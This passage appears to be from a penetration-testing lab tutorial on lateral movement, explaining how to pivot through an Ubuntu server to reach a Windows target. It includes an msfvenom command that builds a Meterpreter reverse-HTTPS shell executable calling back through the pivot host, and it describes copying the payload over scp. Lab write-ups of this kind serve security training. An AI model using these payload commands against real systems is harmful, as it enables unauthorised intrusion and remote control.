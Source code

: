 In these cases, we would have to find a pivot host, which is a common connection point between our attack host and the Windows server. In our case, our pivot host would be the Ubuntu server since it can connect to both: our attack host and the Windows target. To gain a Meterpreter shell on Windows, we will create a Meterpreter HTTPS payload using msfvenom, but the configuration of the reverse connection for the payload would be the Ubuntu server's host IP address (172.16.5.129). We will use the port 8080 on the Ubuntu server to forward all of our reverse packets to our attack hosts' 8000 port, where our Metasploit listener is running.


### Creating a Windows Payload with msfvenom

	$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe lport=443 -o dev01-shell.exe

![Pivot Payload](/Lateral-Movement/images/pivot-payload.png) 

### Configuring & Starting the multi / handler

![Pivot listener](/Lateral-Movement/images/pivot-listener.png) 

Once our payload is created and we have our listener configured & running, we can copy the payload to the Ubuntu server using the **scp** command since we already have the credentials to connect to the Ubuntu server using SSH.

![Copy Payload](/Lateral-Movement/images/copy-payload.png) 
